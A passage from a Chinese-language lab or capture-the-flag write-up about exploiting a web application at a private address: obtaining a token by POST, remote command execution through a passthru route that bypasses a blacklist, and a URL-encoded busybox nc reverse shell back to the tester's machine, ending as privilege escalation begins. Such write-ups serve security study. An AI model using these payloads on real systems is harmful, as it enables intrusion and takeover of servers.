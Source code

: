 # 三、漏洞利用

## 1. 获取Token

根据代码审计，需要先获取一个合法的 `token` 才能访问后台控制器。`app/index/controller/Token.php` 文件逻辑显示，向 `/index.php/index/token/token` 发送 `sb=admin` 的POST请求即可获得`token`。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x/tmp]
└─$ curl http://192.168.205.131:8080/index.php/index/token/token -d "sb=admin" -c cookie.txt
...
<p class="message">获取成功: 2fce588f94d6d5edcfea90156254f130a4aed575</p>
...
```

## 2. RCE执行命令

携带上一步获取的`cookie`，构造Payload访问漏洞路由。我们使用 `passthru` 函数绕过黑名单检测，执行 `id` 命令。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x/tmp]
└─$ curl http://192.168.205.131:8080/think/admin/hello/a/id/b/passthru -b cookie.txt
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

命令成功执行，当前用户为 `www-data`。

## 3. 反弹Shell

在本地监听端口：

```bash
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 8888                        
listening on [any] 8888 ...
```

构造反弹Shell的Payload，并进行URL编码后发送：

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x/tmp]
└─$ curl http://192.168.205.131:8080/think/admin/hello/a/busybox%20nc%20192%2E168%2E205%2E128%208888%20%2De%20bash/b/passthru -b cookie.txt
```

成功接收到反弹Shell，并使用`script`和`stty`等命令升级为交互式TTY。

# 四、权限提升

## 1. 用户切换

在 `/home` 目录下发现 `welcome` 用户，并在其家目录中找到一个名为 `.pwd` 的可疑文件，这可能是一个密码字典。
